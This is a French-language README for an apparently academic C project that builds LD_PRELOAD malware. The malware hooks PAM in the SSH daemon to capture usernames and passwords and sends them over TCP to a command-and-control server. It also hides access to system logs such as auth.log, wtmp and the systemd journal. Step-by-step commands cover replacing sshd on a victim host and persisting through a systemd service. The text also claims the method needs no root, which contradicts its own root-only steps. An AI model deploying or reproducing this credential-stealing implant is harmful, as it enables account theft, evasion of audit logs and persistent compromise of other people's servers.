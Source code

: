 Projet de Malware utilisant LD_PRELOAD

Description :

Ce projet consiste en la création d'un malware en C qui intercepte les fonctions d'authentification SSH pour capturer les identifiants des utilisateurs. Il utilise la technique de LD_PRELOAD pour surcharger les fonctions de la bibliothèque PAM (Pluggable Authentication Modules) et ainsi intercepter les appels aux fonctions d'authentification. Les identifiants capturés sont ensuite envoyés à un serveur de Commande et Contrôle (C2) pour un suivi centralisé.

Fonctionnalités :

 - Interception des fonctions pam_get_user et pam_get_item pour capturer les noms d'utilisateur et les mots de passe.
 - Envoi des identifiants capturés à un serveur C2 via une connexion TCP.
 - Blocage de l'accès à certains fichiers sensibles en surchargeant les fonctions open, openat et fopen.

Fichiers du projet
 - pam_auth_logger.c : Contient le code du malware pour intercepter les fonctions PAM et envoyer les identifiants au serveur C2.
 - block_files.c : Contient le code pour bloquer l'accès à certains fichiers en surchargeant les fonctions de la bibliothèque standard C.
 - Makefile : Script de compilation pour générer la bibliothèque partagée libpam_auth_logger.so.
 - srv_tcp.c : Code du serveur C2 qui reçoit et enregistre les identifiants envoyés par le malware.

Compilation :

Dans un premier temps faites un git clone du projet :

Allez dans le dossier ou vous souhaitez copier le projet puis faite un :

 -  git clone https://github.com/snipzr/Partiel_C.git

Pour compiler le projet, exécutez la commande suivante :

make (Cette commande génère le fichier libpam_auth_logger.so)


Sur le C2 faite aussi un git clone puis pour compiler le serveur TCP, utilisez la commande suivante :

 - gcc -o srv_tcp srv_tcp.c

Utilisation
Démarrage du serveur C2 :

Sur le C2, lancez le serveur TCP :

 - ./srv_tcp

Déploiement du malware sur la machine victime (avec droit root pour la partie ssh) :

D'abord l'on vas s'occuper de la partie ssh puis ensuite de la partie qui bloque l'accès au fichiers suivants :

1.Fichiers de logs systèmes

/var/log/wtmp
/var/log/lastlog
/var/log/btmp
/var/log/auth.log
/var/log/sysstat

2.Journaux de systemd

/var/log/journal

3.Logs liés à l'affichage graphique

Toute occurrence contenant "Xorg." (exemple : /var/log/Xorg.0.log)


MISE EN PLACE

( Pensez a changez l'adresse IP du C2 par celle de votre C2dans le pam_auth_logger.c à la ligne : 129 sinon les crédentials ne s'enveront pas)

dans le dossier Partiel_C compilez les fichiers nécessaires en utilisant la commande :

make (utilisable grace au Makefile qui compilera le malware) 

Assurez-vous que le port 22 n'est pas utilisé par un autre processus :

Utilisez la commande suivante pour lister les processus en écoute sur le port 22 :

 - sudo lsof -i :22

notez le PID (2eme colone)

Arreter le processus qui utilise le port :

 - sudo kill -9 <PID>

Vérifier que le port 22 a été libéré

 - sudo netstat -tuln | grep ":22"


Ensuite créez le répertoire /run/sshd :

sudo mkdir -p /run/sshd
sudo chmod 0755 /run/sshd

Testez manuellement le chargement de la bibliothèque avec LD_PRELOAD :

LD_PRELOAD=/chemin/vers/libpam_auth_logger.so /usr/sbin/sshd -D

Puis tentez de vous connecter en ssh via une machine lambda ppour verifier que le C2 recoit bien les crédentials

Si tout fonctionne correctement, créez un service systemd pour automatiser le démarrage :

sudo vim /etc/systemd/system/ld_preload_sshd.service
Ajoutez le contenu suivant :

[Unit]
Description=SSH Daemon with LD_PRELOAD
After=network.target

[Service]
Environment="LD_PRELOAD=/chemin/vers/libpam_auth_logger.so"
ExecStart=/usr/sbin/sshd -D
Restart=on-failure
RestartSec=5s
StandardOutput=journal
StandardError=journal

[Install]
WantedBy=multi-user.target
Remplacez /chemin/vers/libpam_auth_logger.so par le chemin réel vers le fichier.

Rechargez les unités systemd et activez le service :

sudo systemctl daemon-reload
sudo systemctl enable ld_preload_sshd
sudo systemctl start ld_preload_sshd
sudo systemctl status ld_preload_sshd

Ainsi le Malware sera lancé a chaque démarage de la machine 


EXPLICATION :


Fonctionnement de LD_PRELOAD

LD_PRELOAD est une variable d'environnement utilisée sur les systèmes Unix pour spécifier des bibliothèques partagées à charger avant les autres lors de l'exécution d'un programme. Cela permet de surcharger des fonctions spécifiques, offrant ainsi la possibilité de modifier le comportement d'applications sans changer leur code source.

Dans ce projet, LD_PRELOAD nous permet d'intercepter les appels aux fonctions PAM sans modifier le code source du démon SSH. En utilisant cette technique, nous chargeons la bibliothèque libpam_auth_logger.so avant les autres bibliothèques système. Cela redéfinit des fonctions comme pam_get_user et pam_get_item pour capturer les identifiants utilisateur, qui sont ensuite transmis au serveur C2. L'approche par LD_PRELOAD est discrète et évite de nécessiter des droits root, ce qui est en phase avec les objectifs du projet.


Fonctionnement d'un Linker

Un linker, ou éditeur de liens, est un outil qui combine divers modules de code objet en un seul exécutable ou une bibliothèque. Il résout les références entre les symboles (fonctions, variables) définis dans différents modules, permettant ainsi à un programme de fonctionner correctement.

Dans le contexte de LD_PRELOAD, le linker dynamique (ld.so sur les systèmes Linux) joue un rôle clé en redirigeant les appels système vers nos fonctions redéfinies. Lorsque notre bibliothèque est chargée, le linker garantit que les appels aux fonctions PAM (par exemple, pam_get_user) passent par nos définitions personnalisées. Cette redirection est ce qui permet d'intercepter les credentials sans modifier directement les fichiers binaires du démon SSH.


Fonctionnement des Threads sur Linux

Un thread est une unité d'exécution au sein d'un processus. Les threads partagent le même espace mémoire et les mêmes ressources, mais peuvent être exécutés indépendamment, permettant une exécution parallèle au sein d'une application.

Dans ce projet, les threads pourraient être utilisés pour gérer plusieurs connexions simultanément entre les machines infectées et le serveur C2. Par exemple, chaque fois que des credentials sont capturés et transmis, un thread distinct pourrait gérer l'envoi au serveur C2, tout en permettant au malware de continuer à fonctionner en arrière-plan. Cela garantit une exécution fluide et rapide des tâches sans bloquer le système.
